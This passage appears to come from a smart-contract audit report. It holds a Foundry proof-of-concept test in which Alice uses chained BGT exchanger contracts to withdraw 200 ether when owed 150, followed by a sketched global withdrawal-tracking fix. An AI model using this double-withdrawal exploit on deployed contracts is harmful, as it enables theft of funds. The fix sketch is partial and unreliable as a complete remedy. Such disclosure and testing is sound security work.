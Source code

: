 ```solidity
        assertGt(
            dOwed,
            0,
            "D incorrectly reports Alice is still owed ether from A"
        );

        // For complete verification, we check the exact amount D thinks Alice is owed
        assertEq(
            dOwed,
            50 ether,
            "D specifically reports Alice is still owed 50 ether from A (the full amount!)"
        );

        // STEP 7: Alice can now withdraw this "extra" amount that she shouldn't have access to
        vm.startPrank(alice);
        exchangerD.withdraw(alice, dOwed);

        // This means Alice has now withdrawn more than she was owed!
        uint256 finalTotalWithdrawn = bWithdrawn +
            cWithdrawn +
            exchangerD.withdrawn(alice);
        assertEq(
            finalTotalWithdrawn,
            200 ether,
            "Alice has withdrawn 200 ether when she was only owed 150 ether!"
        );

        vm.stopPrank();
    }
```

### Mitigation

**Global Withdrawal Tracking**: Implement a global withdrawal tracking system that maintains withdrawal records across all exchangers, not just at the level where the withdrawal was initiated:

```solidity
        // Add a global mapping in a shared location accessible by all exchangers
        mapping(address => uint256) public globalWithdrawn;

        // Update the withdraw function to use global tracking
        function withdraw(address to, uint256 amount) external {
            uint256 owed = getOwed(msg.sender);
            if (owed < amount) revert InsufficientOwed();
            
            // Transfer tokens
            TransferHelper.safeTransfer(bgtToken, to, amount);
            
            // Update global withdrawn amount instead of local
            globalWithdrawn[msg.sender] += amount;
        }

        // Update getOwed to use the global withdrawn value
        function getOwed(address caller) public view returns (uint256) {
            uint256 total = owed[caller];
            if (address(backupEx) != address(0)) {
                total += IBGTExchanger(backupEx).getOwed(caller);
            }
            return total > globalWithdrawn[caller] ? total - globalWithdrawn[caller] : 0;
        }
```
